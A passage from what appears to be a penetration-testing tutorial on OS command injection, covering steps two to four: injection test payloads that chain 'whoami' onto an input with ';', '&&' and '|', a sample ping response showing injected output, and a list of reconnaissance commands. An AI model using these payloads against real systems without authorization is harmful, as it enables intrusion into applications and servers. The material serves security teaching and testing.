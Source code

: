 ### Step 2: Test Basic Injection

**Simple Test Payloads:**
```bash
# Test with semicolon
original_input; whoami

# Test with AND operator  
original_input && whoami

# Test with pipe
original_input | whoami
```

### Step 3: Analyze Response Changes

**Positive Indicators:**
- Additional command output appears
- Error messages change
- Response timing differences
- Different HTTP status codes

**Example Response Analysis:**
```bash
# Normal ping response
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0.0% packet loss

# Injected command response
PING 127.0.0.1 (127.0.0.1): 56 data bytes  
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0.0% packet loss
www-data
```

### Step 4: Confirm Injection

**Verification Commands:**
```bash
# System information
whoami
id
hostname
pwd

# Directory listing
ls
dir

# System details
uname -a
systeminfo
```

---